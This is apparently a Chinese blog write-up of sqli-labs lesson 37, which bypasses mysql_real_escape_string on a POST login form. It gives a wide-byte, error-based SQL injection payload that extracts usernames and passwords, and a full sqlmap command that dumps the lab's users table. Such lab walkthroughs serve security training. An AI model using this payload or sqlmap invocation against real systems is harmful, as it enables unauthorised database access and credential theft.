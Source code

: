 ```yaml
---
title: sqli-labs lession-37 POST-绕过Mysql-real-escape-string
date: 2018-10-16 00:28:50
tags: [sqli-labs]
categories: sql注入
---
```


# sqli-labs lession-37 POST-绕过Mysql-real-escape-string

---

## 登录界面

![001](/img/sql/Lesson-37/001.png)

## 分析

{% post_link sqli-labs-lession-36-GET-绕过Mysql-real-escape-string 点击查看Lesson-36%}

## 过程

这一课的payload和Lesson-34一模一样,就不贴过程了

`uname=admin1%df'and extractvalue(null,concat(0x7e,(select concat(username,password) from users limit 0,1),0x7e))%23&passwd=123&submit=Submit`

![001](/img/sql/Lesson-38/001.png)



## SQLMAP

和Lesson-34一模一样。

`sqlmap -u "http://192.168.75.132/sql/Less-37/" --data "uname=admin'&passwd=123&submit=Submit" -p uname --method POST --dbms mysql --threads 32 --technique E --tamper unmagicquotes.py -D security -T users --columns --dump`

![002](/img/sql/Lesson-38/002.png)

![003](/img/sql/Lesson-38/003.png)

![004](/img/sql/Lesson-38/004.png)
